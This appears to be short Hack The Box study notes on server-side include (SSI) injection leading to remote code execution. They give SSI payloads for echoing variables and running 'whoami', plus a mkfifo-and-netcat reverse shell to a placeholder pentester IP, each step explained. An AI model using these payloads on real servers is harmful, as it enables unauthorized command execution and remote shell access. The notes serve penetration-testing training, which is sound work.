





SSI Injection RCE (HTB)
1. Send Test Characters
 2. Send some
malicious payloads• Date
<!--#echo var="DATE_LOCAL" -->
• Print all variables
 • Execute Commands
<!--#exec cmd="whoami" -->
• We can also use the above Command with a Reverse Shell
<!--#exec cmd="mkfifo /tmp/foo;nc <PENTESTER IP> <PORT> 0</tmp/foo|/bin/bash 1>/tmp/foo;rm /tmp/foo" -->
◇ mkfifo /tmp/foo → Create a FIFO special file in /tmp/foo
◇ nc <IP> <PORT> 0</tmp/foo → Connect to the pentester machine and redirect the standard input descriptor
◇ | bin/bash 1>/tmp/foo → Execute /bin/bash redirecting the standard output descriptor to /tmp/foo
◇ rm /tmp/foo → Cleanup the FIFO file